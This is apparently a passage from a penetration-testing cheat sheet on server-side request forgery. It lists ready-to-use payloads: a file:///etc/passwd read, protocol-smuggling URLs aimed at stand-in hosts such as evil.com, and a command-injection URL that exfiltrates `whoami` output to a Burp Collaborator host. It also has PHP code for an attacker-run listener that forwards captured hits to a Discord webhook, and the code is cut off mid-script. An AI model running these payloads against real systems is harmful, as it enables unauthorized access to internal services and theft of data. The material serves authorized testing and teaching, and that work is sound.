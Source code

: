 ```bash
file:///etc/passwd
dict://<user>;<auth>@<host>:<port>/d:<word>:<database>:<n>
ssrf.php?url=dict://attacker:11111/
ssrf.php?url=sftp://evil.com:11111/
ssrf.php?url=tftp://evil.com:12346/TESTUDPPACKET
ssrf.php?url=ldap://localhost:11211/%0astats%0aquit
# Gopher://
Fortunately, you can use Gopherus[<https://github.com/tarunkant/Gopherus>] to create payloads for several services. Additionally, remote-method-guesser[<https://github.com/qtc-de/remote-method-guesser>] can be used to create gopher payloads for Java RMI services
```

## Other Test Cases

```bash
# SSRF via Referrer header
<https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery#ssrf-via-referrer-header>
# SSRF via SNI data from certificate  --> <https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery#ssrf-via-sni-data-from-certificate>
openssl s_client -connecttarget.com:443 -servername "internal.host.com" -crlf
# Wget File Upload 
<https://book.hacktricks.xyz/pentesting-web/file-upload#wget-file-upload-ssrf-trick>
# SSRF with Command Injection
url=http://3iufty2q67fuy2dew3yug4f34.burpcollaborator.net?`whoami`
# PDFs Rendering
If the web page is automatically creating a PDF with some information you have provided, you can insert some JS that will be executed by the PDF creator itself (the server) while creating the PDF and you will be able to abuse a SSRF. Find more information here. <https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf>
# From SSRF to DoS
Create several sessions and try to download heavy files exploiting the SSRF from the sessions.
# SSRf PHP Functions
```

## Host PHP code in your server to get notified whenever there is SSRF HIT

````php
<?php
date_default_timezone_set('Asia/Kolkata'); //Change this if you need to

$date = date('Y-m-d H:i:s');


$ip_address = $_SERVER['REMOTE_ADDR'];

$user_agent = $_SERVER['HTTP_USER_AGENT'];

$endpoint = $_SERVER['REQUEST_URI'];

$log_message = "**Seems like you have a HIT**\n```Date: $date\t\nIP: $ip_address\t\nUser-Agent: $user_agent\t\nPath: $endpoint```\n";

// echo $log_message;
echo "<body><h1>Hit Me Harder :) </h1></body>";


$webhook_url = "https://discord.com/api/webhooks/10589949/E9uS3k9MxnI5CiIfmtmXHfornTObgZ_xl"; // replace with your webhook URL
$message = array("content" => "$log_message"); // the message you want to send

$ch = curl_init($webhook_url);
````